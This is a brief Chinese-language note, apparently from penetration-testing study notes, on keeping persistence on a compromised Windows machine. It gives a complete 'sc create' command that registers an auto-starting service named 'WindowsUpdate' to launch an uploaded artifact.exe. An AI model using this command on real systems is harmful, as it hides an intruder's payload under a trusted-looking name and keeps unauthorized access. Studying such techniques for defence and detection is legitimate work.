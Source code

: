 # 权限维持
不想做了
方法就是设置开机自启动服务,服务一运行就会执行生成的artifact.exe文件(上传到目标机)
执行的命令如下:
```
shell sc create "WindowsUpdate" binpath= "cmd /c start \"C:\Users\Administrator\Desktop\artifact.exe\"" && sc config "WindowsUpdate" start= auto && sc start "WindowsUpdate"
```
